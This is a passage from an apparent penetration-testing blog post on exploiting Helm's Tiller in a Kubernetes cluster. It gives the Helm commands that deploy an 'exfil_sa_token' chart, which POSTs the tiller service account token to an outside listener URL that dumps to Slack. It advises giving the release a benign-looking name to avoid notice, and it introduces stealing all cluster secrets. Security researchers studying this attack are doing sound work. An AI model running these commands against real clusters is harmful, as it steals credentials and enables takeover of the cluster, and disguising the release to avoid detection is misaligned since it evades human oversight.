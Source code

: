Of course, since we don't hace access to the Kubernetes API directly and are using Helm, we can't just send this YAML - we have to send a Chart. 

I've created a chart to run the above job:

https://github.com/ropnop/pentest_charts/tree/master/charts/exfil_sa_token

This chart is also packaged up and served from a Chart Repo here: https://ropnop.github.io/pentest_charts/

This Chart takes a few values:

 * `name` - the name of the release, job and pod. Probably best to call it something benign looking (e.g. "tiller-deployer")
 * `serviceAccountName` - the service account to use (and therefore the token that will be exfil'd)
 * `exfilURL` - the URL to POST the token to. Make sure you have a listener on that URL to catch it! (I like using a [serverless function](https://github.com/ropnop/serverless_toolkit/tree/master/datadump) to dump to Slack)
 * `namespace` - defaults to kube-system, but you can override it

To deploy this chart and exfil the tiller service account token, we have to first "initialize" Helm in our pod:

```bash
$ export HELM_HOME=/tmp/helmhome
$ /tmp/helm init --client-only
```
Once it initializes, we can deploy the chart directly and pass it the values via command line:

```bash
$ export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134
$ /tmp/helm install --name tiller-deployer \
    --set serviceAccountName=tiller \
    --set exfilURL="https://datadump-slack-dgjttxnxkc.now.sh" \
    --repo https://ropnop.github.io/pentest_charts exfil_sa_token
```

Our Job was successfully deployed:

![helm_job_created](/images/2019/01/helm_job_created.png)

And I got the tiller service account token POSTed back to me in Slack :)

![token_dumped_slack](/images/2019/01/tiller_sa_token_slack.png)

After the job completes, it's easy to clean up everything and delete all the resources with Helm purge:

```bash
$ /tmp/helm delete --purge tiller-deployer
```

## Stealing all secrets from Kubernetes
While you can always use the "exfil_sa_token" chart to steal service account tokens, it's predicated on one thing: you know the name of the service account. 

In the above case, an attacker would have to pretty much guess that the service account name was "tiller", or the attack wouldn't work. In this scenario, since we don't have access to the Kubernetes API to query service accounts, and we can't look it up through Tiller, there's no easy way to just pull out a service account token if it has a unique name.
